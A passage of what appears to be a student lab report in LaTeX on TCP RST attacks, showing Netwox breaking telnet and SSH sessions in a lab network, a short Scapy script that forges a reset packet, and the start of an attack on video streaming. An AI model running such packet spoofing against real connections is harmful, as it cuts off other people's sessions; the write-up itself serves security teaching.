    
\includegraphics[width=1\textwidth]{tcp-telnet-connection.png}
\end{figure}

\vspace{0.5in}

\noindent
Launch the attack using Netwox

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-telnet-attack.png}
\end{figure}



\newpage

\noindent
The TCP connection breaks down, indicating the attack is successful.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-telnet-success.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Using Netwox on an SSH Connection}
\end{center}

\noindent
Our goal here is to spoof a RST packet to break this SSH connection
between the observer and the victim.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-sshnet-connection.png}
\end{figure}

\noindent
Launch the attack using Netwox

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-telnet-attack.png}
\end{figure}

\noindent
The SSH connection collapses, indicating the attack is successful.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-sshnet-success.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Using Scapy}
\end{center}

\noindent
Using Scapy can also achieve the objectives above. Since the purpose is the same,
here I will just briefly demonstrate by showing the wireshark snippet and
the python code being used.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-wireshark.png}
\end{figure}

\begin{lstlisting}[language=python]
#!/usr/bin/python
from scapy.all import *
ip = IP(src="10.0.2.6", dst="10.0.2.5")
tcp = TCP(sport=45132, dport=23, flags="RA", seq=238728331, ack=3082051888)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
\end{lstlisting}



\newpage

\subsubsection{TCP RST Attacks on Video Streaming Applications}

\noindent
Hey! The Mandalorian Season 2!

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-video-before.png}
\end{figure}

\noindent
Oh no, some alien attacked us\dots

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-video-attack.png}
\end{figure}



\newpage

\noindent
Ooops\dots

\begin{figure}[H]
    \centering
